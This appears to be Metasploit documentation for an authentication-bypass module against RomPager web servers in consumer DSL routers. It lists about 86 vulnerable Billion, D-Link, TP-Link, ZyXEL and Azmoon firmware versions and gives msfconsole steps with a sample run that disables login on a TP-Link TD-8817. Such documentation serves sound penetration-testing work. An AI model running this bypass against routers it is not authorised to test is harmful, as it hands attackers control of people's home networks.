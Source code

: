## Vulnerable devices

Following is list of devices and firmware versions with known values used for exploitation
0.   Azmoon   AZ-D140W - 2.11.89.0(RE2.C29)3.11.11.52_PMOFF.1
1.   Billion  BiPAC 5102S - Av2.7.0.23 (UE0.B1C)
2.   Billion  BiPAC 5102S - Bv2.7.0.23 (UE0.B1C)
3.   Billion  BiPAC 5200 - 2.11.84.0(UE2.C2)3.11.11.6                  
4.   Billion  BiPAC 5200 - 2_11_62_2_ UE0.C2D_3_10_16_0                
5.   Billion  BiPAC 5200A - 2_10_5 _0(RE0.C2)3_6_0_0                    
6.   Billion  BiPAC 5200A - 2_11_38_0 (RE0.C29)3_10_5_0                 
7.   Billion  BiPAC 5200GR4 - 2.11.91.0(RE2.C29)3.11.11.52                
8.   Billion  BiPAC 5200SRD - 2.10.5.0 (UE0.C2C) 3.6.0.0                  
9.   Billion  BiPAC 5200SRD - 2.12.17.0_UE2.C3_3.12.17.0                  
10.  Billion  BiPAC 5200SRD - 2_11_62_2(UE0.C3D)3_11_11_22                
11.  D-Link   DSL-2520U - Z1 1.08 DSL-2520U_RT63261_Middle_East_ADSL  
12.  D-Link   DSL-2600U - Z1_DSL-2600U                                
13.  D-Link   DSL-2600U - Z2_V1.08_ras                                
14.  TP-Link  TD-8616 - V2_080513                                   
15.  TP-Link  TD-8816 - V4_100528_Russia                            
16.  TP-Link  TD-8816 - V4_100524                                   
17.  TP-Link  TD-8816 - V5_100528_Russia                            
18.  TP-Link  TD-8816 - V5_100524                                   
19.  TP-Link  TD-8816 - V5_100903                                   
20.  TP-Link  TD-8816 - V6_100907                                   
21.  TP-Link  TD-8816 - V7_111103                                   
22.  TP-Link  TD-8816 - V7_130204                                   
23.  TP-Link  TD-8817 - V5_100524                                   
24.  TP-Link  TD-8817 - V5_100702_TR                                
25.  TP-Link  TD-8817 - V5_100903                                   
26.  TP-Link  TD-8817 - V6_100907                                   
27.  TP-Link  TD-8817 - V6_101221                                   
28.  TP-Link  TD-8817 - V7_110826                                   
29.  TP-Link  TD-8817 - V7_130217                                   
30.  TP-Link  TD-8817 - V7_120509                                   
31.  TP-Link  TD-8817 - V8_140311                                   
32.  TP-Link  TD-8820 - V3_091223                                   
33.  TP-Link  TD-8840T - V1_080520                                   
34.  TP-Link  TD-8840T - V2_100525                                   
35.  TP-Link  TD-8840T - V2_100702_TR                                
36.  TP-Link  TD-8840T - V2_090609                                   
37.  TP-Link  TD-8840T - V3_101208                                   
38.  TP-Link  TD-8840T - V3_110221                                   
39.  TP-Link  TD-8840T - V3_120531                                   
40.  TP-Link  TD-W8101G - V1_090107                                   
41.  TP-Link  TD-W8101G - V1_090107                                   
42.  TP-Link  TD-W8101G - V2_100819                                   
43.  TP-Link  TD-W8101G - V2_101015_TR                                
44.  TP-Link  TD-W8101G - V2_101101                                   
45.  TP-Link  TD-W8101G - V3_110119                                   
46.  TP-Link  TD-W8101G - V3_120213                                   
47.  TP-Link  TD-W8101G - V3_120604                                   
48.  TP-Link  TD-W8151N - V3_120530                                   
49.  TP-Link  TD-W8901G - V1_080522                                   
50.  TP-Link  TD-W8901G - V1,2_080522                                 
51.  TP-Link  TD-W8901G - V2_090113_Turkish                           
52.  TP-Link  TD-W8901G - V3_140512                                   
53.  TP-Link  TD-W8901G - V3_100603                                   
54.  TP-Link  TD-W8901G - V3_100702_TR                                
55.  TP-Link  TD-W8901G - V3_100901                                   
56.  TP-Link  TD-W8901G - V6_110119                                   
57.  TP-Link  TD-W8901G - V6_110915                                   
58.  TP-Link  TD-W8901G - V6_120418                                   
59.  TP-Link  TD-W8901G - V6_120213                                   
60.  TP-Link  TD-W8901GB - V3_100727                                   
61.  TP-Link  TD-W8901GB - V3_100820                                   
62.  TP-Link  TD-W8901N - V1_111211                                   
63.  TP-Link  TD-W8951ND - V1_101124,100723,100728                     
64.  TP-Link  TD-W8951ND - V1_110907                                   
65.  TP-Link  TD-W8951ND - V1_111125                                   
66.  TP-Link  TD-W8951ND - V3.0_110729_FI                              
67.  TP-Link  TD-W8951ND - V3_110721                                   
68.  TP-Link  TD-W8951ND - V3_20110729_FI                              
69.  TP-Link  TD-W8951ND - V4_120511                                   
70.  TP-Link  TD-W8951ND - V4_120607                                   
71.  TP-Link  TD-W8951ND - V4_120912_FL                                
72.  TP-Link  TD-W8961NB - V1_110107                                   
73.  TP-Link  TD-W8961NB - V1_110519                                   
74.  TP-Link  TD-W8961NB - V2_120319                                   
75.  TP-Link  TD-W8961NB - V2_120823                                   
76.  TP-Link  TD-W8961ND - V1_100722,101122                            
77.  TP-Link  TD-W8961ND - V1_101022_TR                                
78.  TP-Link  TD-W8961ND - V1_111125                                   
79.  TP-Link  TD-W8961ND - V2_120427                                   
80.  TP-Link  TD-W8961ND - V2_120710_UK                                
81.  TP-Link  TD-W8961ND - V2_120723_FI                                
82.  TP-Link  TD-W8961ND - V3_120524,120808                            
83.  TP-Link  TD-W8961ND - V3_120830                                   
84.  ZyXEL    P-660R-T3 - 3.40(BOQ.0)C0                        
85.  ZyXEL    P-660RU-T3 - 3.40(BJR.0)C0

## Verification Steps

  1. Start msfconsole
  2. Do: ```use auxiliary/admin/http/allegro_rompager_auth_bypass```
  3. Do: ```set rhost <ip>```
  4. Do: ```set rport <port>```
  5. Do: ```run```
  6. You should be able to login into the device without authentication
  
## Scenarios

  Example run against TP-Link TD-8817:
```
msf > use auxiliary/admin/http/allegro_rompager_auth_bypass 
msf auxiliary(allegro_rompager_auth_bypass) > show options

Module options (auxiliary/admin/http/allegro_rompager_auth_bypass):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      192.168.1.1      yes       The target address
   RPORT      80               yes       The target port
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       URI to test
   VHOST                       no        HTTP server virtual host


msf auxiliary(allegro_rompager_auth_bypass) > set rhost 192.168.1.1
rhost => 192.168.1.1
msf auxiliary(allegro_rompager_auth_bypass) > run

[+] Detected device:TP-Link TD-8817
[-] Bad response
[-] Bad response
[+] Good response, please check host, authentication should be disabled
[*] Auxiliary module execution completed
```

